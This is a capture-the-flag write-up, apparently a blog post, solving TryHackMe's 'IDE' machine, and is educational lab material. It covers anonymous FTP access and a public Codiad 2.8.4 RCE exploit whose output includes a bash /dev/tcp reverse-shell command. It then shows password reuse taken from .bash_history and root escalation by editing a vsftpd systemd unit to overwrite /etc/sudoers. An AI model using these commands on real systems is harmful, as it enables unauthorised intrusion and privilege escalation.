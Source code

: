 ```yaml
---
title : "IDE - Write Up"
date : 2021-10-16T16:15:25+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's easy level machine."
tags : ["FTP","nc","Codiad","sudo","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/ide)  | Easy  |  [bluestorm](https://tryhackme.com/p/bluestorm) and [403Exploit](https://tryhackme.com/p/403Exploit)  |


## Reconn

Hey! Welcome back!
As you may know, we start the CTFs with an `nmap` scan, so let's do the same with this one!

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.233.193 -p- -sS --min-rate 5000 -n -Pn
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 00:11 CEST
Nmap scan report for 10.10.233.193
Host is up (0.056s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds
```
Great! We now have more information:
    · We have an FTP server running at port `21`.
    · An SSH service running on port `22`.
    · A web server on port `80`.
    · An unknown service running on `62337`.

Alright, let's try to download all the data that we can from the `FTP` server with the user `anonymous` (If you didn't know the user `anonymous` it's a default account that doesn't require a password to login on the `FTP` server).
```bash
╰─ lanfran@parrot ❯ wget -m ftp://anonymous@10.10.78.174
--2021-10-16 00:18:16--  ftp://anonymous@10.10.78.174/
           => ‘10.10.78.174/.listing’
Connecting to 10.10.78.174:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> PASV ... done.    ==> LIST ... done.

10.10.78.174/.listing                 [ <=>                                                        ]     180  --.-KB/s    in 0s      

2021-10-16 00:18:16 (6.37 MB/s) - ‘10.10.78.174/.listing’ saved [180]

--2021-10-16 00:18:16--  ftp://anonymous@10.10.78.174/.../
           => ‘10.10.78.174/.../.listing’
==> CWD (1) /... ... done.
==> PASV ... done.    ==> LIST ... done.

10.10.78.174/.../.listing             [ <=>                                                        ]     178  --.-KB/s    in 0s      

2021-10-16 00:18:17 (3.11 MB/s) - ‘10.10.78.174/.../.listing’ saved [178]

--2021-10-16 00:18:17--  ftp://anonymous@10.10.78.174/.../-
           => ‘10.10.78.174/.../-’
==> CWD not required.
==> PASV ... done.    ==> RETR - ... done.
Length: 151

10.10.78.174/.../-                100%[===========================================================>]     151  --.-KB/s    in 0.1s    

2021-10-16 00:18:17 (1.15 KB/s) - ‘10.10.78.174/.../-’ saved [151]

FINISHED --2021-10-16 00:18:17--
Total wall clock time: 1.5s
Downloaded: 3 files, 509 in 0.1s (3.88 KB/s)
```
Wow! We have some weird names for the folder and the file...

So let's try to rename the `-` file to a more friendly name and see what it has inside!
```bash
╰─ lanfran@parrot ❯ mv \- data

╰─ lanfran@parrot ❯ cat data
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
Mmmm.... we know now that the user `john` has his password reseted to the default one...

Let's see what's on port `80` and port `62337`.

![loginpage](version.png)

After some research, the port `80` has just a default apache2 web server running, the insterest web page is on port `62337`.

We have a login page for `Codiad`, a web based IDE! And we also know that the version is `2.8.4`!

## Foothold - User

So, after googling something easy as `Codiad 2.8.4 exploit`, I found a public exploit to get RCE with an authenticated user! [Here's the link to the exploit]()

So far so good, let's run the exploit!

```bash
╰─ lanfran@parrot ❯ python3 exp.py http://10.10.233.193:62337/ john [REDACTED] 10.9.4.36 1337 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.9.4.36/1338 0>&1 2>&1"' | nc -lnvp 1337
nc -lnvp 1338
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y  
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
```
After running the commands that the exploit suggest, we finally have a foothold on the machine!
```bash
╰─ lanfran@parrot ❯ nc -lnvp 1338
listening on [any] 1338 ...
connect to [10.9.4.36] from (UNKNOWN) [10.10.233.193] 46490
bash: cannot set terminal process group (866): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
But... We can't read the user flag, because we need to escalate to user `drac` to read the flag...

So digging around the machine, we find that the user `drac` has the `.bash_history` with some information inside!
```bash
www-data@ide:/home/drac$ cat .bash_history 
mysql -u drac -p '[REDACTED]'
```
Hey! We found a password! Maybe this user reutilize the password...
```bash
www-data@ide:/home/drac$ su drac 
Password: 
drac@ide:~$ cat /home/drac/user.txt 
0[REDACTED]6
```
YES! We did it!

## Root

Now we need to escalate to root!

For this, we do the first try as in every machine `sudo -l`, and we can restart the `vsftpd` service!
```bash
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
So maybe we can exploit this service if we can edit the `vsftpd.service` file!

And yes! We can edit it!
```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
drac@ide:~$ nano /lib/systemd/system/vsftpd.service
drac@ide:~$
```
So let's edit it to execute a command:
`ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'`


This command will add our user `drac` into the `sudoers` file to run all the commands as `root`!

So after editing the file, it should look like this:
```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```
Great! Let's restart the service and reload the units:
```bash
drac@ide:~$ sudo /usr/sbin/service vsftpd restart
Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.
drac@ide:~$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
drac@ide:~$ sudo /usr/sbin/service vsftpd restart
```
After this, we can check if our exploit worked!

YES! We can now run `sudo` to everything!
```bash
drac@ide:~$ sudo -l
User drac may run the following commands on ide:
    (root) NOPASSWD: ALL
```
So let's just run `sudo su` to get `root`
```bash
drac@ide:~$ sudo su
root@ide:/home/drac# id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/home/drac# cat /root/root.txt 
c[REDACTED]d
```

And we rooted the machine!

That's all from my side, hope you find this helpful!